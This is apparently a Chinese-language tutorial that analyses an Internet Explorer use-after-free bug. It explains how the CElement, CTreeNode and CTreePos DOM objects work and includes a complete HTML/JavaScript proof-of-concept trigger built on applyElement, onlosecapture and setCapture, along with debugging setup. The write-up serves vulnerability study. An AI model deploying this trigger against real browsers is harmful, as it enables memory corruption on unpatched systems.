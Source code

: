 **以下对于和我一样不懂IE浏览器如何构建DOM树以及相关知识的友好**

保证了Poc能运行后，我们来结合Poc学习一下CTreeNode等相关知识，此处学习参考0x9A82师傅文章
- https://www.cnblogs.com/Ox9A82/p/5782425.html

接下来会通过代码介绍三个概念：`CElement`，`CTreeNode`和`CTreePos`

开启堆溢出检测
```
C:\Program Files\Internet Explorer>"C:\Program Files\Windows Kits\10\Debuggers\x
86\gflags.exe" -i iexplore.exe +hpa
```

首先创建两个元素对象，我们像如下这样创建出来的元素，统一继承自类`CElement`，它存在于内存，但不存在于DOM树中，因为此时还没有进行`appendChild`操作
```
var id_0 = document.createElement("sup");
var id_1 = document.createElement("audio");
```

进行`appendChild`操作，此时DOM树上会多出两个节点，这两个节点互为兄弟节点，但都是`<body>`的儿子节点，同时每一个元素会对应创建`CTreeNode`和`CTreePos`两个对象，`CTreeNode`对象为DOM树上面的具体节点，`CTreePos`对象用于表示所对应的`CTreeNode`节点在DOM树上面的位置
```
document.body.appendChild(id_0);
document.body.appendChild(id_1);
```

**小结：首先创建了两个元素对象，它们继承自类`CElement`，当这两个对象通过`appendChild`操作被加到DOM树之后，每一个元素就会对应再生成`CTreeNode`和`CTreePos`两个对象，`CTreeNode`为DOM树上具体的节点对象，可以想象一棵果树，此时`CTreeNode`对象表示具体的果子，而`CTreePos`对象表示的是前面的果子在树上的具体位置，也就是说，`CTreeNode`和`CTreePos`是一一对应的**

在将两个元素添加到DOM树后，将`id_1`表示的对象转变为`id_0`对象的子节点
```
id_1.applyElement(id_0);
```

到这里对于DOM树的操作就完成了，我们通过调试再来观察一遍整个过程，同时也观察一下每个对象的部分结构特点

常见打断点操作，三个位置轮着打`Math.tan`，`Math.sin`和`Math.cos`，可以有个明显的顺序，也可以排除其它元素创建对我们分析的干扰
```
<html>
<script>
function trigger()
{
    Math.tan(3,4);
    var id_0 = document.createElement("sup");
    var id_1 = document.createElement("audio");
    Math.sin(0);
    document.body.appendChild(id_0);
    document.body.appendChild(id_1);
    Math.cos(0);
    id_1.applyElement(id_0);
    Math.tan(3,4);
    id_0.onlosecapture = function(e) {
        document.write("");
    }
    id_0["outerText"] = "";
    Math.sin(0);
    id_0.setCapture();
    id_1.setCapture();
}
window.onload = function() {
    trigger();
}
</script>
</html>
```
